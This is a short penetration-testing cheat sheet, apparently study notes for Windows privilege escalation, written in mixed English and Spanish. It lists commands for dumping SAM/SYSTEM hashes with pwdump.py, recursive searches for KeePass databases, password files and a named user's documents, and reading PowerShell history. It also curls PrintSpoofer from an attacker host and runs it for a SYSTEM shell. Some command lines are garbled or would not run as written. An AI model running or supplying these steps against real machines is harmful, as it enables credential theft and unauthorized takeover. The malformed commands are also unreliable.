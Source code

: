 #### looking for common Sam and System backups

```
SAM  | winpeas 
```

- Attacker machine move then dcrypt with tool creddump-master
```sh
./pwdump.py SYSTEM SAM
```
- OR findbackup file
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue 
```

```powershell
Get-ChildItem -Path C:\xampp -Include .txt,.ini -File -Recurse -ErrorAction SilentlyContinue (check files) | type C:\xampp\passwords.txt | type C:\xampp\mysql\bin\my.ini
```

- Carpeta usuario **Dave** 

```
Get-ChildItem -Path C:\Users\dave\ -Include .txt,.pdf,.xls,.xlsx,.doc,.docx -File -Recurse -ErrorAction SilentlyContinue   (check doc txt etc)
```

- Another goldmine found file then type noman.txt and if found command then do it because of taken root

```
powershell Get-History   | (Get-PSReadlineOption).HistorySavePath 
```

```
 cd C:\ | pwd | dir
```

### SeImpersonatePrivilege enable

```
Whoami /priv 
```

```
Whoami /all
```

### Printspoofer

```
curl 192.168.10.10/PrintSpoofer64.exe -o Pr.exe
```

```
- .\Pr.exe -i -c cmd  OR .\PrintSpoofer32.exe -i -c powershell.exe
```

### GODpotato
